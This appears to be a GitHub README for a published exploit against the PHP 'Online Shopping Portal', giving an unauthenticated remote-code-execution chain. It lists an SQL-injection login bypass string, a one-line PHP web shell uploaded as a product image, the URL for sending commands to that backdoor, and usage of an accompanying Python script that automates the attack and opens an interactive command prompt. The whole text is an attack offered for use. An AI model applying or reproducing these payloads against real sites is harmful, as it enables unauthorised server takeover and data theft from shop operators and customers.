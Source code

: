 # Online Shopping Portal 3.1 - Remote Code Execution (Unauthenticated)

Date: 17.07.2021\
Exploit Author: D3duct1V\
Original Exploit Author: Tagoletta (Tağmaç)\
Original EDB-ID: 50029\
Software Link: https://phpgurukul.com/shopping-portal-free-download/ \
Version: v1.0\
Tested on: Windows\

---
# Manual Exploit Details

The exploit utilizes multiple vulnerabilities first bypasses authentication then allows for file php file upload. 

## Authentication Bypass

Navagate to the Admin login page: `http://<site>/shopping/admin` \
Username: `'OR 1=1'--` \
Password: whatever
  
## File upload vulnerability

After bypassing the authentication navagate to the "Add a new product" \
Here insert whatever data into the fields until the picture. \
The image file should be a php file with the command execution such the following:
  1. `<?php $exe = shell_exec($_REQUEST['cmd']); echo $exe; ?>`
  2. `<?php my code`

## Interacting with the backdoor

Search for the newly uploaded "product" and locate the image URL. \
Then use curl to interact with the backdoor: `http://<site>/shopping/admin/productimages/1/<image>.php?cmd=hostname` 

# Automated attack

Running the python script found within this repo uses Python 3 and needs the requests package \
The script can be started `# python3 script.py -u <target URL minus /shopping>` 

The script will bypass the authentication upload a backdoor with a product name and image name. \
It will then find the backdoor and attempt to connect to and run a current directory echo command. \
Once successful will drop into a interactive command prompt, this will run system commands but not a full shell. 

# Metasploit module

Coming.

